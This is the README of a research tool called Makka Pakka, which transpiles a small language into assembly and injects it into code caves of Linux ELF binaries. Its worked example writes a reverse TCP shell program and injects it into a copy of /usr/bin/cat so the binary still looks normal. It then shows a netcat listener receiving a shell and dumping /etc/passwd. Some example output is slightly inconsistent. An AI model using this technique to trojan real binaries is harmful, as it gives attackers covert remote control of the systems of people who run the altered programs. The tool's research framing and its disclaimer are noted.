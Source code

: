 # Makka Pakka
Makka pakka is a programming language which transpiles into Intel assembly.
Makka pakka programs are specifically written to be embedded within a target
linux binary (ELF file). The language contains a submodule which autmatically
injects the compiled code into a
[code cave](https://en.wikipedia.org/wiki/Code_cave) of the target program.

To learn more, please visit the
[documentation page](https://lemon-bush-0f7dfc410.2.azurestaticapps.net/).

## Disclaimer
This project was created purely for research purposes. You do not have
permission to use this program for malicious code injection.

## Installation
__Makka Pakka only works on Linux. Trying to run it on other operating systems will not work.__

Makka pakka is distributed as a package on [PyPi](https://pypi.org/project/MakkaPakka).

To install, use pip:
``` bash
pip install MakkaPakka
```

You should then have access to three commands: mkpk, mkpk-transpile, elf-caver.

Test them out!
``` bash
mkpk --help
Usage: mkpk [OPTIONS] MKPK_FILEPATH TARGET_BINARY

Options:
-o, --output-file TEXT  The filepath to output the injected binary to.
-n, --patch-entrypoint  Patches the entrypoint to point to injected code.
-e, --patch-exit        Patches the process exit to point to the injected
                        code.
-v, --verbose           Logs a verbose output to stdout.
--help                  Show this message and exit.
```

``` bash
mkpk-transpile --help
Usage: mkpk-transpile [OPTIONS] MKPK_FILEPATH

Options:
-o, --output TEXT  The filepath to output the translated makka pakka code.
--help             Show this message and exit
```

``` bash
elf-caver --help
Usage: elf-caver [OPTIONS]

Options:
-a, --asm-file TEXT     The filepath of the .asm file to inject.  [required]
-t, --target-file TEXT  The filepath of the binary to inject into.
                        [required]
-o, --output-file TEXT  The filepath to output the injected binary to.
                        [required]
-n, --patch-entrypoint  (Optional) Patches the entrypoint to point to
                        injected code.
-e, --patch-exit        (Optional) Patches the process exit to point to the
                        injected code.
--help
```

## Example
Creating a Makka Pakka program file:
```
----- reverse_tcp.mkpk -----
!link stdlib/network.mkpk
!link stdlib/syscall.mkpk
!link stdlib/execve.mkpk

[[data]]
exit_msg: "Connection Terminated"
# 5555 in little endian.
port: 0xb315
# 127.0.0.1 in little endian.
addr: 0x0100007f

[[code]]
[main]
> socket
> connect "addr" "port"
> dup2
> bin_sh
> sys_write "exit_msg" 22
> sys_exit
```

Compiling the Makka Pakka program into /usr/bin/echo:
```
mkpk reverse_tcp.mkpk /usr/bin/cat -e -o cat_inject
Injecting assembly from cat_inject.asm into cat_inject.
Injected file output to cat_inject.mkpk reverse_tcp.mkpk
```

Setting up a listener on localhost:5555:
```
nc -l localhost 5555
```

Then run the injected cat binary, it looks inconspicuous! but...
```
./cat_inject --help
Usage: ./cat_inject [OPTION]... [FILE]...
Concatenate FILE(s) to standard output.

With no FILE, or when FILE is -, read standard input.

  -A, --show-all           equivalent to -vET
  -b, --number-nonblank    number nonempty output lines, overrides -n
  -e                       equivalent to -vE
  -E, --show-ends          display $ at end of each line
  -n, --number             number all output lines
  -s, --squeeze-blank      suppress repeated empty output lines
  -t                       equivalent to -vT
  -T, --show-tabs          display TAB characters as ^I
  -u                       (ignored)
  -v, --show-nonprinting   use ^ and M- notation, except for LFD and TAB
      --help     display this help and exit
      --version  output version information and exit

Examples:
  ./cat_inject f - g  Output f's contents, then standard input, then g's contents.
  ./cat_inject        Copy standard input to standard output.

GNU coreutils online help: <https://www.gnu.org/software/coreutils/>
Report any translation bugs to <https://translationproject.org/team/>
Full documentation <https://www.gnu.org/software/coreutils/cat>
or available locally via: info '(coreutils) cat invocation'
```

Now the netcat listener has a remote TCP shell!
```
nc -l localhost 5555
whoami
alex
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:102:105::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:103:106:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
syslog:x:104:111::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:106:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:107:113::/nonexistent:/usr/sbin/nologin
alex:x:1000:1000:,,,:/home/alex:/bin/bash
```
## Development Installation
If you wish to contribute to Makka Pakka, then these are the instruction for
downloading the source and setting up the dev environment

Prerequisite installs:
- Python 3.10+
- Netwide Assembler (NASM)

Clone the git repository and configure the environment.
``` bash
cd <your directory>
git clone https://github.com/PandasAreBears/MakkaPakka
```
``` bash
cd MakkaPakka
source configure.sh
```

At this point you can use Makka Pakka from within this directory.
``` bash
python3 mkpk.py --help
```

For more examples, or a more detailed technical explaination, please check
out the
[documentation page](https://lemon-bush-0f7dfc410.2.azurestaticapps.net/).
